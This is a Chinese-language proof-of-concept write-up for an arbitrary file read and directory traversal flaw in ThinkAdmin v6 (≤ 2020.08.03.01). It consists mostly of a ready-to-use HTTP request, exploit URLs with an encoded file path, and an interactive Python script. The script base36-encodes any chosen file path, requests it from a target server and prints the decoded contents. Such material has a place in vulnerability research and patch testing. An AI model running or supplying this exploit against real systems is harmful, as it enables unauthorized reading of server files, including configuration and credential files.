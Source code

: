 # ThinkAdminV6 任意文件操作

> 2020.9

## #影响范围

ThinkAdmin ≤ 2020.08.03.01

## #Poc

1.目录遍历

```http
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxwtto5dwj320x0u0qbm.jpg)

2.任意文件读取

```
http://x.x.x.x/admin.html?s=admin/api.Update/version # s参数
```

3.读取指定的文件(需要编码)

```
http://x.x.x.x/admin.html?s=admin/api.Update/get/encode/filename(encode)

http://x.x.x.x/admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34
```

文件加密脚本：

python3 poc.py http://x.x.x.x

```python
import requests,json,base64,sys

def baseN(num, b):
  return ((num == 0) and "0") or \
     (baseN(num // b, b).lstrip("0") + "0123456789abcdefghijklmnopqrstuvwxyz"[num % b])

def poc(url):
	while 1:
		s = input("请输入需要读取的文件路径：").encode('utf-8')

		if str(s) == "b'exit'":
			sys.exit(0)

		try:
			poc =""
			for i in s:
				poc += baseN(i,36)

			url = url+"/admin.html?s=admin/api.Update/get/encode/"+poc
			r = requests.get(url)
			if r.status_code == 200:
				if "读取文件内容失败！" in r.text:
					print("读取文件内容失败，请输入正确的文件路径！")

				s1 = json.loads(r.text)["data"]["content"]
				result = base64.b64decode(s1).decode('utf-8')
				print(result)
			else:
				print("不存在漏洞")
				break
		except:
			pass

if __name__ == "__main__":
	if len(sys.argv) == 2:
		poc(sys.argv[1])
	else:
		print("""
 _____ _     _       _     ___      _           _       
|_   _| |   (_)     | |   / _ \    | |         (_)      
  | | | |__  _ _ __ | | _/ /_\ \ __| |_ __ ___  _ _ __  
  | | | '_ \| | '_ \| |/ /  _  |/ _` | '_ ` _ \| | '_ \ 
  | | | | | | | | | |   <| | | | (_| | | | | | | | | | |
  \_/ |_| |_|_|_| |_|_|\_\_| |_/\__,_|_| |_| |_|_|_| |_| v6
                                                        
By: yuyan-sec \t [ThinkAdmin v6 任意文件读取]

Usage： python poc.py [URL]
	python poc.py http://127.0.0.1
			""")
	

```

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxx9jvs2yj314006j0t1.jpg)

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxx9r16y1j31hc0m27bm.jpg)

跨目录读取

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxx8dfn53j313y05vjrv.jpg)

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxx8k93k8j31hb0ecmyn.jpg)

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxx8xe57xj31hc0g33zt.jpg)